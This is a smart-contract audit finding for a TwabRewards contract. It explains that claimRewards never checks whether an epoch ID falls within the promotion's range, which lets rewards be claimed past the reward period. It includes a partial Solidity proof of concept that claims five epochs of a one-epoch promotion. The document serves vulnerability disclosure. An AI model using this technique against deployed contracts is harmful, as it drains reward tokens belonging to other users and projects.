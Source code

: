 #### [](#impact-1)Impact

When claiming rewards via `claimRewards()`, the function `\_calculateRewardAmount()` is called. The function `\_calculateRewardAmount()` has a check to make sure the epoch is over

      require(block.timestamp > _epochEndTimestamp, "TwabRewards/epoch-not-over"); 

However neither functions check if the `\_epochId` is within the range of the reward epochs. Ergo it is possible to continue claiming rewards after the reward period is over. This only works as long as there are enough tokens in the contract. But this is the case when not everyone has claimed, or other rewards use the same token.

The proof of concept contains a simplified version of the contract, and shows how this can be done. When run in remix you get the following output, while there is only 1 epoch. `console.log: Claiming for epoch 1 1 Claiming for epoch 2 1 Claiming for epoch 3 1 Claiming for epoch 4 1 Claiming for epoch 5 1`

#### [](#proof-of-concept-2)Proof of Concept

     // SPDX-License-Identifier: GPL-3.0
    pragma solidity 0.8.6;
    import "hardhat/console.sol";  
    
    contract TwabRewards {
    
        struct Promotion {
            uint216 tokensPerEpoch;
            uint32 startTimestamp;
            uint32 epochDuration;
            uint8 numberOfEpochs;
        }
        mapping(uint256 => Promotion) internal _promotions;
        uint256 internal _latestPromotionId;
        mapping(uint256 => mapping(address => uint256)) internal _claimedEpochs;
        
        constructor() {
            uint id=createPromotion(1,uint32(block.timestamp)-10,1,1);
            claimRewards(id,1);
            claimRewards(id,2);
            claimRewards(id,3);
            claimRewards(id,4);
            claimRewards(id,5);
        }
         
        function createPromotion(uint216 _tokensPerEpoch,uint32 _startTimestamp,uint32 _epochDuration,uint8 _numberOfEpochs) public  returns (uint256) {
            uint256 _nextPromotionId = _latestPromotionId + 1;
            _latestPromotionId = _nextPromotionId;
            _promotions[_nextPromotionId] = Promotion(_tokensPerEpoch,_startTimestamp,_epochDuration,_numberOfEpochs);
            return _nextPromotionId;
        }
     
        function claimRewards(
            uint256 _promotionId,
            uint256 _epochId
        ) public  returns (uint256) {
            Promotion memory _promotion = _getPromotion(_promotionId);
            address _user=address(0);
            uint256 _rewardsAmount;
            uint256 _userClaimedEpochs = _claimedEpochs[_promotionId][_user];
    
